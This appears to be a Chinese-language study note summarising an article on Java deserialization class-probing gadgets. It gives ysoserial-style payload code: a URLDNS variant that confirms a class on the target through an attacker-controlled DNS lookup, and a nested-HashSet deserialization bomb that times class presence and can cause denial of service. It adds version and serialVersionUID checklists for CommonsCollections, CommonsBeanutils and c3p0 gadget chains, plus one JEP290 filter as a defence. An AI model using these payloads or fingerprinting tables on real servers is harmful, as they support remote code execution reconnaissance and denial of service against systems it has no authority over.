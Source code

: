 # 构造java探测class反序列化gadget的思考

[构造java探测class反序列化gadget](https://mp.weixin.qq.com/s?__biz=Mzg3NjA4MTQ1NQ==&mid=2247484178&idx=1&sn=228ccc3d624f2d64a6c1d51555c42eea&chksm=cf36fb52f8417244ea608ea14da45b876548617864179c8da6df46010bed78aa41c4a2277cb8&mpshare=1&scene=23&srcid=1231zSEsxQMxcrllvqoBgmcY&sharer_sharetime=1640932147710&sharer_shareid=33a823b10ae99f33a60db621d83241cb#rd)

这篇文章是2021年最后一天读的，非常好。这让我对2022充满希望。谢谢师傅提供的好思路。

## urldns

通过urldns去判断是不是存在

```java
/**
* 生成我们需要的空类
**/
public static Class makeClass(String clazzName) throws Exception{
    ClassPool classPool = ClassPool.getDefault();
    CtClass ctClass = classPool.makeClass(clazzName);
    Class clazz = ctClass.toClass();
    ctClass.defrost();
    return clazz;
}
```

poc

```java
@Authors({ Authors.NOPOINT,Authors.C0NY1 })
public class FindClassByDNS implements ObjectPayload<Object> {
    public Object getObject(final String command) throws Exception {
        String[] cmds = command.split("\\|");
        if(cmds.length != 2){
            System.out.println("<url>|<class name>");
            return null;
        }
        String url = cmds[0];
        String clazzName = cmds[1];
        URLStreamHandler handler = new SilentURLStreamHandler();
        HashMap ht = new HashMap();
        URL u = new URL(null, url, handler);
        // 以URL对象为key，以探测Class为value
        ht.put(u, makeClass(clazzName));//
        Reflections.setFieldValue(u, "hashCode", -1);
        return ht;
    }
}
```

**如果环境没有dns解析就不行咯**

## Dos

https://blog.csdn.net/fnmsd/article/details/115672540

https://blog.csdn.net/nevermorewo/article/details/100100048

https://github.com/jbloch/effective-java-3e-source-code/blob/master/src/effectivejava/chapter12/item85/DeserializationBomb.java

**通过构造特殊的多层嵌套HashSet，导致服务器反序列化的时间复杂度提升，消耗服务器所有性能，导致拒绝服务。在这个基础上，我选择消耗部分性能达到间接延时的作用，来探测class。**

```java
@Authors({ Authors.C0NY1 })
public class FindClassByBomb extends PayloadRunner implements ObjectPayload<Object> {

    public Object getObject ( final String command ) throws Exception {
        int depth;
        String className = null;

        if(command.contains("|")){
            String[] x = command.split("\\|");
            className = x[0];
            depth = Integer.valueOf(x[1]);
        }else{
            className = command;
            depth = 28;
        }

        Class findClazz = makeClass(className);
        Set<Object> root = new HashSet<Object>();
        Set<Object> s1 = root;
        Set<Object> s2 = new HashSet<Object>();
        for (int i = 0; i < depth; i++) {
            Set<Object> t1 = new HashSet<Object>();
            Set<Object> t2 = new HashSet<Object>();
            t1.add(findClazz);//不存在类就抛出异常
            s1.add(t1);
            s1.add(t2);
            s2.add(t1);
            s2.add(t2);
            s1 = t1;
            s2 = t2;
        }
        return root;
    }
} 
```

经过师傅的实战一般这个深度都在25到28之间，切记不要设置太大否则造成DOS。

不过可以通过jep290继续防御

```
-Djdk.serialFilter=maxarray=100000;maxdepth=20
```



## class checklist

要想在实战中使用，我们就需要事先去制作一份class的checklist备用。下面我通过diff maven中央仓库的统计的结果。最新的checklist和gadget都更新到ysoserial-for-woodpecker项目。

**6.1 CommonsCollections**

必须存在类：org.apache.commons.collections.functors.ChainedTransformer



|       版本范围       |                        漏洞版本                        | 判断类 | suid冲突 |
| :------------------: | :----------------------------------------------------: | :----: | :------: |
| >= 3.1 or = 20040616 |      org.apache.commons.collections.list.TreeList      |   是   |    无    |
|       >= 3.2.2       | org.apache.commons.collections.functors.FunctorUtils$1 |   否   |    无    |



**6.2 CommonsCollections4**

必须存在类：org.apache.commons.collections4.comparators.TransformingComparator

| 版本范围 | 漏洞版本 |                        判断类                        | suid冲突 |
| :------: | :------: | :--------------------------------------------------: | :------: |
|  >= 4.1  |    否    |  存在org.apache.commons.collections4.FluentIterable  |    无    |
|   4.0    |    否    | 不存在org.apache.commons.collections4.FluentIterable |    无    |



**6.3 CommonsBeanutils**

必须存在类：org.apache.commons.beanutils.BeanComparator



|             版本范围              | 漏洞版本 |                      判断类                       |       suid冲突       |
| :-------------------------------: | :------: | :-----------------------------------------------: | :------------------: |
|             >= 1.9.0              |    是    | 存在org.apache.commons.beanutils.BeanIntrospector | -2044202215314119608 |
|        1.7.0 <=  <= 1.8.3         |    是    |     存在org.apache.commons.collections.Buffer     | -3490850999041592962 |
|    >= 1.6 or = 20030211.134440    |    是    | 存在org.apache.commons.beanutils.ConstructorUtils | 2573799559215537819  |
| >= 1.5 or 20021128.082114 > 1.4.1 |    是    |  存在org.apache.commons.beanutils.BeanComparator  | 5123381023979609048  |

**6.4 c3p0**

必须存在：org.apache.commons.beanutils.BeanComparator



|            版本范围             | 漏洞版本 |                       判断类                        |       suid冲突       |
| :-----------------------------: | :------: | :-------------------------------------------------: | :------------------: |
|      0.9.5-pre9 ～ 0.9.5.5      |    是    |  存在com.mchange.v2.c3p0.test.AlwaysFailDataSource  | -2440162180985815128 |
| 0.9.2-pre2-RELEASE ~ 0.9.5-pre8 |    是    | 不存在com.mchange.v2.c3p0.test.AlwaysFailDataSource | 7387108436934414104  |



以c3p0为例子，我们判断的步骤应该是



1. 第一步判断com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase是否存在，若存在C3P0可用

2. 第二步判断com.mchange.v2.c3p0.test.AlwaysFailDataSource是否存在，存在说明是高版本，suid切换-2440162180985815128。否则切换7387108436934414104 



## 思考

1. Oracle jdk or Open jdk

2. 是jre还是jdk

3. 中间件类型（辅助构造回显/内存马）

4. 使用的web框架

5. BCEL classloader是否存在  **com.sun.org.apache.bcel.internal.util.ClassLoader**

6. 判断java版本是否低于<7u104（该版本可以00截断）

7. ......

本来想继续去寻找的可是有点累了，以后有时间去弄吧。。。。。respect 

参考

>[构造java探测class反序列化gadget](https://mp.weixin.qq.com/s?__biz=Mzg3NjA4MTQ1NQ==&mid=2247484178&idx=1&sn=228ccc3d624f2d64a6c1d51555c42eea&chksm=cf36fb52f8417244ea608ea14da45b876548617864179c8da6df46010bed78aa41c4a2277cb8&mpshare=1&scene=23&srcid=1231zSEsxQMxcrllvqoBgmcY&sharer_sharetime=1640932147710&sharer_shareid=33a823b10ae99f33a60db621d83241cb#rd)

